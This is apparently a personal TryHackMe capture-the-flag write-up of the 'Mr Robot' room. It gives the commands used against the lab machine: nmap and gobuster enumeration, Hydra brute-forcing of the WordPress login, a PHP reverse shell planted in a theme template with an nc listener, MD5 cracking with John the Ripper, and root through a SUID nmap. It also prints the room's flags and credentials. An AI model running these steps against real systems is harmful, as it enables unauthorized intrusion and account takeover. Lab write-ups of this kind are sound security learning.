 # Room: Mr Robot

## General Info
- **Room link:** [Mr Robot](https://tryhackme.com/room/mrrobot)

## Description

Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners intermediate users. There are 3 hidden keys located on the machine, can you find them?

## Provided Files / Links
- [x] Target Machine IP (10.10.48.69) => created host robot.thm

## Enumeration / Recon
- Ports Enumeration

`nmap -sV robot.thm -O`

```
      Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-09 03:15 EDT
Nmap scan report for robot.thm (10.10.48.69)
Host is up (0.022s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd
Device type: general purpose|specialized|storage-misc|WAP|printer
Running (JUST GUESSING): Linux 3.X|4.X|5.X|2.6.X (89%), Crestron 2-Series (87%), HP embedded (87%), Asus embedded (86%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5.4 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:asus:rt-n56u cpe:/o:linux:linux_kernel:3.4
Aggressive OS guesses: Linux 3.10 - 3.13 (89%), Linux 3.10 - 4.11 (88%), Linux 3.13 (88%), Linux 3.13 or 4.2 (88%), Linux 3.2 - 3.8 (88%), Linux 4.2 (88%), Linux 4.4 (88%), Linux 5.4 (88%), Linux 3.12 (87%), Linux 3.2 - 3.5 (87%)
No exact OS matches for host (test conditions non-ideal).

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.05 seconds

```

  - Notes:
    - Seems like SSH is closed
    - HTTP is open
    - Target machine OS seems to be Linux

- Website visit

A series of scenes from the TV show are displayed when you select commands from a terminal.
When selecting the commands, I get some prints in the console such as:

```
Array(5) [ {\u2026}, "Mr. Robot : Who Is Mr. Robot : prepare", "Video", "Mr. Robot : Who Is Mr. Robot", "Mr. Robot : Who Is Mr. Robot : prepare" ]
Array(5) [ {\u2026}, "Mr. Robot : Who Is Mr. Robot : Help", "Features", "Mr. Robot : Who Is Mr. Robot", "Mr. Robot : Who Is Mr. Robot : Help" ]
Array [ "ROUTE:", "fsociety" ]
Array(5) [ {\u2026}, "Mr. Robot : Who Is Mr. Robot : fsociety", "Video", "Mr. Robot : Who Is Mr. Robot", "Mr. Robot : Who Is Mr. Robot : fsociety" ]
Array [ "ROUTE:", "question" ]
Array(5) [ {\u2026}, "Mr. Robot : Who is Mr. Robot : FSociety Gallery : Photo 1", "Gallery", "Mr. Robot : Who Is Mr. Robot", "Mr. Robot : Who Is Mr. Robot : FSociety Gallery" ]
```

- Directories Enumeration

`gobuster dir -u http://10.10.48.69 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster.txt`

 - /admin => redirect to /admin/index.html but something is broken here
 - /login => redirect to /wp-login.php (WordPress website)
 - /license => `what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?`
 - /readme => `I like where you head is at. However I'm not going to help you. `
 - /robots => (of course :-)) `fsocity.dic` and well `key-1-of-3.txt`

I downloaded the `fsocity.dic` dictionnary (pretty sure it will be usefull later).

With this finding, I immediately went to http://robot.thm/key-1-of-3.txt and found the 1st flag: **073403c8a58a1f80d943455fb30724b9**


## Exploitation / Analysis


### Wordpress Website

#### Credentials search


Before running any WP vulnerability scanner, I played around the login form. I first tried to find exploits with the reset password feature but I didn't find anything relevant. I then noticed the following error message when trying random username/password pairs in the login form: `ERROR: Invalid username.`

This is a bad authentification implementation and I'm going to try bruteforcing the credentials in 2-steps:
  
1st step: bruteforce the username ---- 2nd step: bruteforce the password with the correct username

In the previous /robots directory, I found a `fsocity.dic` dictionnary and I'll use it to find the username.

I had a quick look at the login POST request to find the correct username and password parameters.

**1st Step**:

Hydra command: `hydra -L fsocity.dic -p testpass 10.10.48.69 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"`

Result: `[80][http-post-form] host: 10.10.48.69   login: Elliot   password: testpass`

The username is **Elliot**.

**2nd Step**:

I will try to use the fsocity.dic first (858160 words) before using a bigger wordlist.

Hydra command: `hydra -l Elliot -P fsocity.dic 10.10.48.69 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username"`

The password is **ER28-0652**.

#### Website access

With the credentials, I was able to log in.
I then had a quick look at the plugins (11 plugins, a vulnerability assessment can be done later).
I went to the users section and found another user **krista Gordon** with the username **mich05654**.
In the user's page, the following text in the Biographical info: **another key?**.
I went on the website http://mrrobot.wikia.com/wiki/Krista_Gordon that was listed in the page to try my luck but didn't find any relevant information (I just found this sentence at the top of the page  **Communication is key,Elliot.**, but really didn't look into it too long).

There was not useful information in the other pages and I wanted to try to exploit the theme editor setting via RCE.
I used a php reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) pasted it in the archives (archive.php) template page and changed the IP and port.

I then created a listener `nc -nlvp 33456` on my machine.
I accessed the reverse shell on http://10.10.48.69/wp-content/themes/twentyfifteen/archive.php and I was in the target machine.

### Target Machine Access


I stabilized the shell `python -c 'import pty; pty.spawn("/bin/bash")'`.
I am now a daemon user in the system.
I cannot get root access right away.
When looking into the home directory, I found a robot directory and was able to locate the second key and an encrypted password:
```
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```
I don't have the permission to read the key yet but i can read the hash.

Here comes John the Ripper to crack the md5 hash `john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt` and the result `abcdefghijklmnopqrstuvwxyz`.
I can now switch to the robot user (`su robot`) with the password and cat the 2nd key **822c73956184f694993bede3eb39f959**.

For privilege escalation, I downloaded `linpeas.sh` in the /tmp directory and executed the script.
I found this information that I can exploit: `-rwsr-xr-x 1 root root 493K Nov 13  2015 /usr/local/bin/nmap` (listed in the Files with interesting Permissions section).
In the https://gtfobins.github.io/gtfobins/nmap/ page, I found that nmap can be used to break out from restricted environments by spawning an interactive system shell on older versions (in this machine nmap version is 3.81).

I then used the following commands:
```
nmap --interactive
nmap> !sh
```
And I am now root.
I found the last flag in the root folder **04787ddef27c3dee1ee161b21670b4e4**.

## Final considerations

I actually didn't notice that the page /license that was found during directories enumeration was scrollable.
At the bottom of the page was the following string `ZWxsaW90OkVSMjgtMDY1Mgo=` that was giving me the correct username/password pair for the WordPress website authentification (**elliot:ER28-0652** when you decode it).
